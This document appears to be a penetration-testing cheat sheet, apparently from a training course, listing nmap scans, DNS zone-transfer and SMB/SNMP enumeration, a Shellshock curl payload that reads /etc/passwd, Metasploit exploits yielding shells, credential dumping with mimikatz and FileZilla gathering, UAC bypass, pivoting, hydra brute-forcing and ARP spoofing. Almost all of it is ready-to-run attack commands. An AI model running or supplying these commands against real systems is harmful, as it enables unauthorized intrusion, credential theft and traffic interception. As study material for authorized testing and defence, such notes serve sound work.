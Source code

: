 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN              :    Exploiting zone transfer to display all subdomains
    - dig @authorative_dns_server axfr -x subNet (192.168)    :    Reverse DNS

### 2.SMB Misconfiguration

nmap -p445 --script smb-protocols TARGET
nmap -p445 --script smb-security-mode TARGET
nmap -p445 --script smb-enum-users  TARGET

   #### 2.1 SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2 Metasploit
    exploit/windows/smb/psexec
    exploit/windows/smb/smb_relay
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
    smbclient -L IPTarget


### 3.SNMP 
#### 3.1 Detection
    nmap -sU -p 161 Target

#### 3.2 Exploitation to guess community string and Collect Info
    nmap -sU -p 161 --script=snmp-brute Target
    snmpwalk -v 1 -c public Target
    nmap -sU -p 161 --script snmp-* Target > snmp_output

### 4.Exploitation

#### 4.1 Exploit ShellShock CVE-2014-6271 (suppose it is at /browser.cgi)
    nmap -sV -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' Target
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://Target/browser.cgi

#### 4.2 Other common exploits 
    - exploit/unix/ftp/proftpd_133c_backdoor for ProFTPD ==> Result in a shell
    - exploit/multi/misc/java_rmi_server ==> Result in a shell
    - auxiliary/scanner/mysql/mysql_authbypass_hashdump ==> dump mysql password hashes
    - exploit/windows/http/badblue_passthru for badblue 2.7 ==> Result in a shell

### 3.Post Exploitation

#### 3.0 Infor Gathering
    run winenum
    run arp_scanner –r TargetNetworkSubnet
    run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

    getsystem
    post/windows/gather/win_privs        : Check if UAC enabled
    exploit/windows/local/bypassuac      : Local exploit to bypass UAC
    
    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
    incognito
    mimikatz

##### 3.1.2 Via Windows Services 
    
    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”
    
    - Using powerUp.ps1 script
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
    From MSF Console : route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
    From metrerpreter : run autoroute -s 192.168.4.0/24
    
    portfarwarding (meterpreter) ==>  portfwd add -l LocalPort -p ServicePort -r victimeIP (ex: portfwd add -l 1234 -p 80 -r 10.0.17.12)
    portfwd list    ==> This meterpreter command display current portforwarding

### 4.Bruteforcing

hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb


### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
    arpspoof -i tap0 -t vic1_IP -r vic2_IP
    arpspoof -i tap0 -t vic2_IP -r vic2_IP
